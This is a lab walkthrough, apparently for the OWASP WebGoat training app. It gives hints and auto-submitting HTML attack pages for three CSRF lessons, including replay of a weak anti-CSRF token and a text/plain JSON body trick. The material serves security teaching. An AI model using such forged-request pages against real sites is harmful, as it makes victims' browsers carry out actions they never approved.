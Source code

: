 ##### Cross-Site Request Forgeries

3.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The form has hidden inputs.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) You will need to use an external page and/or script to trigger it.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Try creating a local page or one that is uploaded and points to this form as its action.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The trigger can be manual or scripted to happen automatically

Save the following code in a file **csrf.html** and open it in a web browser.  

```html
<form name="attack" action="http://host:port/WebGoat/csrf/basic-get-flag" method="POST">  
     <input type="hidden" name='csrf' value='true'>  
</form>  
<script>document.attack.submit();</script>  
```

4.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Again, you will need to submit from an external domain/host to trigger this action. While CSRF can often be triggered from the same host (e.g. via persisted payload), this doesn't work that way.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Remember, you need to mimic the existing workflow/form.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) This one has a weak anti-CSRF protection, but you do need to overcome (mimic) it

Save the following code in a file **csrf.html** and open it in a web browser.  

```html
<form name="attack" action="http://host:port/WebGoat/csrf/review" method="POST">  
     <input type="hidden" name='reviewText' value='This App Rocks'>  
     <input type="hidden" name='stars' value='5'>  
     <input type="hidden" name='validateReq' value='2aa14227b9a13d0bede0388a7fba9aa9'>  
</form>  
<script>document.attack.submit();</script>  
```

7. 
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  Lesson number does not turn green on validation.
 
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Look at the content-type.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Try to post the same message with content-type text/plain  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The json can be put into a hidden field inside

Save the following code in a file **csrf.html** and open it in a web browser.  

```html
<form name="attack" enctype="text/plain" action="http://host:port/WebGoat/csrf/feedback/message" method="POST">  
     <input type="hidden" name='{"name": "Test", "email": "test1233@dfssdf.de", "subject": "service", "message":"dsaffd"}'>  
</form>  
<script>document.attack.submit();</script>
```
